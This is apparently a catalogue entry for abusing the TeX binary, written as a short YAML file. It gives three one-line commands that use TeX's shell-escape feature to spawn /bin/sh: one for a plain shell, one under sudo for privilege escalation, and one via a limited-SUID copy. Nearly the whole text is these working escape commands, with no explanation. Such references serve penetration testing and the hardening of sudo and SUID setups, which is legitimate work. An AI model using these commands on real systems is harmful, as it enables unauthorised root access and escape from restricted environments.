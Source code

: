 functions:
  shell:
    - code: |
        tex --shell-escape '\write18{/bin/sh}\end'
  sudo:
    - code: |
        sudo tex --shell-escape '\write18{/bin/sh}\end'
  limited-suid:
    - code: |
        ./tex --shell-escape '\write18{/bin/sh}\end'
---
